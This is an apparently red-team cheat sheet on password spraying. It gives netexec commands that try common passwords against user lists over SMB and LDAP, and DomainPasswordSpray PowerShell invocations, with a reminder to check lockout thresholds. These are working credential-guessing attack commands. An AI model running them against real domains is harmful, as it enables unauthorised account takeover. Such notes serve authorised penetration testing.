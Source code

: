 # Password Spraying
NOTE: Always check or confirm lockout threshold before spraying
## netexec
[nxc Password Spraying documentation](https://www.netexec.wiki/smb-protocol/password-spraying)
NOTE: By default nxc will exit after a successful login is found. Using the --continue-on-success flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. This is incompatible with command execution.
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Multiple usernames (space delimeter):
```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18 --continue-on-success
```
Multiple passwords (space delimeter):
```
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Input files:
```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
```
```
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```
```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```
## DomainPasswordSpray
- [DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
- PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

